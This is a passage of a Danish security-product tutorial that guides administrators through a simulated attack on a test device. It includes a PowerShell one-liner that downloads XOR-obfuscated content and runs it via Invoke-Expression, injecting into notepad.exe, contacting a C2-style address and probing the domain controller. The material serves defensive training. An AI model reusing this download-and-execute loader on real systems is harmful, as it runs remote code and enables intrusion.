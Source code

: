 ## <a name="run-the-attack-scenario-simulation"></a>Kør simulering af angrebsscenariet

Sådan kører du simulering af angrebsscenariet:

1. Log på testenheden med testbrugerkontoen.

2. Åbn Windows PowerShell vindue på testenheden.

3. Kopiér følgende simuleringsscript:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Hvis du åbner dokumentet i en webbrowser, kan der opstå problemer med at kopiere hele teksten uden at miste bestemte tegn eller introducere ekstra linjeskift. Download dette dokument, og åbn det på Adobe Reader.

4. Når du bliver bedt om det, skal du indsætte og køre det kopierede script.

> [!NOTE]
> Hvis du kører PowerShell ved hjælp af REMOTE Desktop Protocol (RDP), skal du bruge kommandoen Skriv udklipsholdertekst i RDP-klienten, fordi genvejstasten **CTRL-V** eller højreklik på indsætning måske ikke fungerer. Nyere versioner af PowerShell accepterer nogle gange heller ikke denne metode. Det kan også være, at du er nødt til at kopiere til Notesblok i hukommelsen først, kopiere den i den virtuelle maskine og derefter indsætte den i PowerShell.

Nogle få sekunder senere <i>notepad.exe</i> åbnes. Der vil blive indsatte simulerede angrebskode notepad.exe. Hold den automatisk oprettede forekomst Notesblok åben, så du kan se det fulde scenarie.

Den simulerede angrebskode vil forsøge at kommunikere til en ekstern IP-adresse (si hele C2-serveren) og derefter forsøge at omkonfigurere mod domænecontrolleren via SMB.

Du får vist en meddelelse på PowerShell-konsollen, når dette script er fuldført.

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Hvis du vil se funktionen Automatiseret hændelse og svar i aktion, skal notepad.exe processen åben. Du får vist automatiseret hændelse og svar for at stoppe Notesblok processen.

## <a name="investigate-an-incident"></a>Undersøg en hændelse

> [!NOTE]
> Før vi hjælper dig gennem denne simulering, skal du se følgende video for at finde ud af, hvordan hændelsesstyring hjælper dig med at samle de relaterede beskeder som en del af undersøgelsesprocessen, hvor du kan finde den på portalen, og hvordan den kan hjælpe dig i dine sikkerhedshandlinger:
